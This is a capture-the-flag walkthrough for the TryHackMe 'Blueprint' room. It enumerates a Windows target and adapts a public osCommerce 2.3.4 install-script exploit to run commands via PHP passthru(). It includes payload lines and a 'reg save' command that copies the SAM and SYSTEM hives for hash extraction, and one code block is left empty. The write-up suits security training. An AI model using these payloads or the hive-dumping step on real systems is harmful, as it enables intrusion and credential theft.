 # Blueprint

[Blueprint](https://tryhackme.com/room/blueprint) is a TryHackMe Windows room.

I like to save the target IP as a variable for more convinent access:

```
$ export IP=10.10.33.242
```

## Initial Recon

To start, scan the target IP address with nmap to determine open ports and
services:

```
$ nmap -p- -sV -oN nmap_version_scan.txt -vv $IP

PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Microsoft IIS httpd 7.5
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        syn-ack MariaDB (unauthorized)
8080/tcp  open  http         syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49158/tcp open  msrpc        syn-ack Microsoft Windows RPC
49159/tcp open  msrpc        syn-ack Microsoft Windows RPC
49160/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Our scan checks all ports (-p-), determines service version info (-sV), saves
output to nmap_version_scan.txt (-oN), and is very verbose (-vv).

Found services:
- **Port 80 (http):** A Microsoft IIS 7.5 web server 
- **Port 135 (dcom-scm):** Listens for incoming client requests
- **Port 139 (netbios):** Used by Windows to identify systems 
- **Port 443 (https):** Apache web server
- **Port 3306 (mysql):** A MySQL database - maybe we'll exploit SQLi?
- **Port 8080 (http):** Another Apache web server
- The remaining ports are irrelevant for solving the room.


## Enumeration

I like to enumerate web servers first. The servers on port 80 and 443 did not
have anything. Here's the landing page for the 8080 port:

![landing page](./screenshots/landing_page.png)

We see a folder titled "oscommerce-2.3.4" and the same banner information
revealed in our nmap scan above. Click on the folder:

![oscommerce](./screenshots/oscommerce.png)

Click on the catalog/ directory to view an unpolished eshop.

![eshop](./screenshots/eshop.png)


I didn't see much here, so I deviated from the web server to inspect the SMB
shares.

Found SMB shares:

```
$ smbclient -L //$IP/ -N    

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk      
        Windows         Disk      
SMB1 disabled -- no workgroup available
```

The only non-empty share that we had access too was the Users share. However,
there was not much in there, but I grabbed the NTUSER.dat file anyways.

## Initial Access

My next idea was to see if any vulnerabilities exist for oscommerce with
searchsploit.

![searchsploit](./screenshots/searchsploit.png)

I selected the last one for remote code execution. Pull it down with
`searchsploit -m php/webapps/44374.py`.

This exploits the oscommerce-2.3.4/install/install_4.php script to allow us to
execute commands!

There are a few house-keeping things to do before the exploit will work.

First, change the base_url and target_url variables accordingly. Secondly, the
web server has the system() PHP function disabled. We can confirm this with by
adding the following line to the payload: 

```
payload += 'echo ini_get("disable_functions");'
```

Then run the exploit:

```
$ python3 exploit.py && curl http://$IP:8080//oscommerce-2.3.4/catalog/install/includes/configure.php

system
```

We need a different function to execute commands. I tried exec() and
shell_exec(), but passthru() was the one that worked for me.

Our payload section should now look like this:

```
payload = '\');'
payload += 'passthru("ls");'	# <-- enter commands here!
payload += '//'
```

## Remote Code Execution

For starters, let's see who we are running as with `whoami`.

```
nt authority\system
```

Awesome! The NT Authority\System user has full access to the machine! Typically
this account has more rights than the Administrator user.

## Lab user NTLM hash

If I had a remote shell connection, I could use a tool like mimikatz to grab the
NTLM hash from memory. Since that's not available, I used an old school
technique I learned from [this SuperUser
post](https://superuser.com/questions/364290/how-to-dump-the-windows-sam-file-while-the-system-is-running).

It explains that we can use the Windows builtin `reg save` command to pull the
NTLM hash from the HKLM SAM and SYSTEM keys.

Add the following command to our payload:

```
payload += 'passthru("reg save hklm\\sam C:\sam && reg save hklm\\system C:\system");'
...
$ python3 exploit.py
```

Now that the SAM and SYSTEM keys are copied to the C:\ drive, we can pull them
down with:

```

```
### Root Flag

Contents of root.txt.txt
```
payload += 'passthru("type C:\\Users\\Administrator\\Desktop\\*");'
```

## Helpful links
https://www.php.net/manual/en/function.passthru.php

